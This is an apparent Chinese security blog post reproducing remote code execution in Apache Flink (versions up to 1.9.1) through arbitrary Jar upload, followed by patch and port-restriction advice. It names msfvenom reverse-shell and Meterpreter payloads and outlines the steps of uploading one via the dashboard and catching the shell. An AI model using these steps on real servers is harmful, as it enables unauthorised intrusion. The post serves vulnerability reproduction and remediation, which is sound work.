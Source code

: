 ```yaml
---
layout:     post
title:      Apache Flink任意Jar包上传导致远程代码执行
subtitle:   Apache Flink漏洞复现
date:       2020-08-21
author:     heria
header-img: img/post-bg-coffee.jpg
catalog: true
tags:
---
```




### Apache Flink任意Jar包上传导致远程代码执行

![image-20210326151438763](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20210326151438763.png)

### 阿里云主机异常告警特征

![image-20200821101149138](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20200821101149138.png)

### 复现

**步骤一**

msfvenom -p java/shell_reverse_tcp 生成反弹shell jar包  或者msfvenom -p java/meterpreter/reverse_tcp配合msf

![image-20200821095427504](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20200821095427504.png)



**步骤二**

flink 默认8081/8082端口  add new 上传文件 之后submit

![image-20200821095550530](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20200821095550530.png)

**步骤三**

公网机器开启监听 

![image-20210326151523401](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20210326151523401.png)

成功复现





### 批量检测脚本

https://github.com/AleWong/Apache-Flink-Web-Dashboard-RCE





### 修复

#### 漏洞影响版本范围

<= 1.9.1

版本升级

https://flink.apache.org/downloads.html

#### 端口访问限制

8081端口访问限制（8082） 



### 参考链接：

https://blog.csdn.net/sun1318578251/article/details/103056168


